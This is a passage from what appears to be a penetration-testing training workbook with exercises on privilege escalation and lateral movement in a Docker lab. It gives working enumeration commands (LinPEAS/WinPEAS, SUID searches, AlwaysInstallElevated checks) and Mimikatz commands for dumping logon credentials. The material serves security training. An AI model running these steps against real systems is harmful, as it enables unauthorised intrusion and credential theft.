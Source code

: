 5. Document the attack process and success rate

## Post-Exploitation Exercises

### Exercise 15: Privilege Escalation

**Objective**: Practice identifying and exploiting privilege escalation vulnerabilities.

**Setup**:
1. Use the provided vulnerable machines in the Docker environment

**Tasks**:
1. Use LinPEAS/WinPEAS to identify privilege escalation vectors
   ```bash
   # Command to use (Linux)
   ./linpeas.sh
   
   # Command to use (Windows)
   .\winPEAS.exe
   ```

2. Manually enumerate the system for privilege escalation vectors
   ```bash
   # Linux commands
   find / -perm -u=s -type f 2>/dev/null
   cat /etc/crontab
   sudo -l
   
   # Windows commands
   whoami /priv
   wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"
   reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   ```

3. Exploit identified privilege escalation vectors
   - SUID binaries
   - Weak file permissions
   - Misconfigured services
   - Kernel exploits

4. Document the privilege escalation process and findings

### Exercise 16: Lateral Movement

**Objective**: Practice moving laterally within a network after initial compromise.

**Setup**:
1. Use the provided network of vulnerable machines in the Docker environment

**Tasks**:
1. Use Mimikatz to extract credentials from a compromised Windows system
   ```powershell
   # Command to use
   .\mimikatz.exe
   > privilege::debug
   > sekurlsa::logonpasswords
   ```
